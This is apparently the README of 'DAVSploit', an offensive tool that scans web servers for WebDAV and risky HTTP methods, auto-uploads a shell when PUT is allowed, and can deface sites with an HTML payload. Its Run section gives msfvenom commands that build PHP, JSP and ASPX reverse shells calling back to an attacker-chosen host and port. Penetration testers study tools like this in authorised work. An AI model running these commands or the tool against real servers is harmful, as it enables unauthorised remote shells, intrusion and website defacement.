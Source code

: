 # DAVSploit
DAV Vulnerbility

[DAVSploitV1.2]

<center><img src="https://github.com/darkseid-security/DAVSploit/blob/main/IMG/davsploit.png"></center>


DAVSploit tool is for automating checking for PUT,MOVE,COPY and DELETE HTTP methods
aswell as automating webdav exploitation.

Features
================
- Automatically checks PUT,MOVE,COPY,DELETE,PATCH,CONNECT and TRACE for webserver
- Automatically checks for web dav directories if they exists and gets HTTP allow methods
- if PUT exits will try to automatically upload a shell
- Built in Server detection, payload that matches server version will be sent
- Three diffrent payload types PHP,JSP,ASPX and HTML
- Colored UI
- HTML payload includes deface web page
- [*New Feature] Vulnerbility scanning for web services


Davsploit V2
==============
- Add more payloads
- Add more webservers to detection list
- Fix false positive with PUT method
- Perform content discovery and create wordlist to scan more directories
- Create more malicious HTML payload


Run
===============
Need payloads generated in directory before runing script

Create a PHP reverse shell
- msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
Create a JSP reverse shell
- msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<Port> -f raw > shell.jsp
Create a ASPX reverse shell
- msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<Port> -f aspx > shell.aspx

python3 DAVSploit.py

